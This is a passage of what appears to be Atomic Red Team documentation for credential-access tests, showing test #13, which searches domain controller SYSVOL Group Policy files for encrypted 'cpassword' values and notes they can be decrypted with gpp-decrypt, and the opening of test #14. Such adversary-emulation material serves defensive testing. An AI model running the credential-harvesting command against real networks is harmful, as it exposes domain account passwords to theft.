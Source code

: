 ##### Description: Extract path must exist

##### Check Prereq Commands:

```cmd
if not exist #{extract_path} (exit /b 1) 
```

##### Get Prereq Commands:

```cmd
mkdir #{extract_path}
```

<br/>
<br/>

## Atomic Test #13 - GPP Passwords (findstr)

Look for the encrypted cpassword value within Group Policy Preference files on the Domain Controller. This value can be
decrypted with gpp-decrypt on Kali Linux.

**Supported Platforms:** Windows

#### Attack Commands: Run with `command_prompt`!

```cmd
findstr /S cpassword %logonserver%\sysvol\*.xml
```

#### Dependencies:  Run with `powershell`!

##### Description: Computer must be domain joined

##### Check Prereq Commands:

```powershell
if((Get-CIMInstance -Class Win32_ComputerSystem).PartOfDomain) {exit 0} else {exit 1} 
```

##### Get Prereq Commands:

```powershell
Write-Host Joining this computer to a domain must be done manually
```

<br/>
<br/>

## Atomic Test #14 - GPP Passwords (Get-GPPPassword)

Look for the encrypted cpassword value within Group Policy Preference files on the Domain Controller.
This test is intended to be run from a domain joined workstation, not on the Domain Controller itself.
The Get-GPPPasswords.ps1 executed during this test can be obtained using the get-prereq_commands.
